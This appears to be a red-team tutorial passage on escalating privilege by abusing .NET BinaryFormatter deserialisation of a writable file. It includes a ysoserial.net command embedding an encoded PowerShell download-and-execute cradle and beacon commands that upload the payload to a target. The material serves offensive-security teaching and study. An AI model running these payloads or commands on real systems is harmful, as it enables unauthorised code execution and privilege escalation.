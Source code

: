 Software applications may also be exploitable via traditional vulnerabilities [[T1068](https://attack.mitre.org/techniques/T1068/)] such as buffer overflows, format strings, directory traversal, SQL or command injection, and deserialisation of untrusted data.  When such software is running in an elevated context, exploitation from a user context may result in an elevation of privilege.

The following example code reads in a binary file from an untrusted location, `C:\Temp\data.bin` and uses a BinaryFormatter to deserialise the data.  An adversary can exploit this if they can write a malicious binary blob to this location, which when deserialised, will execute their malicious code.
![[Pasted image 20250707104058.png]]

[ysoserial.net](https://github.com/pwntester/ysoserial.net) is an amazing tool for creating .NET gadgets for this purpose (although the number of options is overwhelming).  In the example below, I'm using the **TypeConfuseDelegate** gadget with the **BinaryFormatter** formatter, to run a PowerShell one-liner.  I output the data in raw format and write it to `C:\Payloads\data.bin`.

```powershell
C:\Users\Attacker>C:\Tools\ysoserial.net\ysoserial\bin\Release\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADEANAA5ADAALwAnACkA" -o raw --outputpath=C:\Payloads\data.bin
```

Simply upload the file to the target and wait for our DNS Beacon to check-in.

```powershell
beacon> cd C:\Temp
beacon> upload C:\Payloads\data.bin
```

![[Pasted image 20250707104254.png]]